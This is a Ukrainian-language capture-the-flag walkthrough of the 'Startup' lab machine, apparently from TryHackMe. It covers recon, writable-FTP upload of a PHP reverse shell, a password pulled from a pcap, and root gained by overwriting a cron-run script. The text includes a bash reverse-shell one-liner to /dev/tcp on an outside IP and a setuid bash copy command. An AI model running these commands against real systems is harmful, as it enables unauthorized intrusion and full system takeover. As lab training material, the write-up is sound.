# Startup - Abuse traditional vulnerabilities via untraditional means. 
Складність: Easy

Ціль: 10.112.153.100

1. Розвідка (Reconnaissance & Enumeration)
   
     1.1. Сканування портів (Nmap):
  
       ` nmap -sC -sV -O -p- -vv 10.112.153.100`
  
      
  
     Бачу доступні файли в FTP (також можливість запису в каталог), веб сервер.
  
     1.2. Веб-розвідка:
  
     Запускаю gobuster 
  
     `$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt  -u http://10.112.153.100 -t 50 -k -x html,txt,php`
  
     

     
  
     Схоже що це файли з FTP.
  
     1.3. Перевіряю FTP:
  
     

     Забираю всі файли та досліджую їх.
  
     
  
     
  
     Бачу ім'я 'Maya', записую. `strings` недав якоїсь інформації, тому досліджую картинку далі.
  
     

     Подальше дослідження картинкі нічого не дало, тому повернтаюсь до FTP.
  
2. Точка входу (Initial Access / Foothold)

     2.1. Експлуатація вразливості: 
     Так як я маю права запису в папку FTP, то пробую залити туди файлик для тесту

     
     

     2.2. Отримання реверс-шеллу: 
     Після цього пробую залити веб-шелл p0wny взятий з https://www.revshells.com/ , але щось не пішло. Пробую залити звичайний PHP реверс-шелл PentestMonkey та запускаю слухача.
  
     
   
     Отримую доступ та стабілізую шелл.

     

     Забираю перший прапор.
  
     

3. Підвищення привілеїв (Privilege Escalation)

     3.1. Горизонтальне переміщення (www-data -> User):
     Переглядаю файли на машині та знаходжу цікавий файл. Переглядаю його.
     `/ftp/ata@startup:/incidents$ cp /incidents/suspicious.pcapng /var/www/html/files`
  
     Дивлюсь файл через `WireShark` та знаходжу щось схоже на пароль.

     

     Перевіряю та забираю прапор `user.txt`.
  
     

     3.2. Вертикальне підвищення (User -> Root): 
  
     Переглядаючи файли користувача, знаходжу такі скрипти.
  
     

     Завантажую `pspy64` та дивлюсь процеси. Трохи чекаю та бачу скрипт `planner.sh`, що запускається від імені `root`.
  
     
  
     Так я маю права на редагування `print.sh`, це дозволяє мені підняти реверс-шелл з правами `root`, або скопіювати `bash`.
  
     Revers-shell:
     `echo "bash -i >& /dev/tcp/192.168.154.141/4444 0>&1" > /etc/print.sh`

     
  
     Bash:
     `echo "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash" > /etc/print.sh`

     

     Забираю прапор `root.txt`.

     
  
  
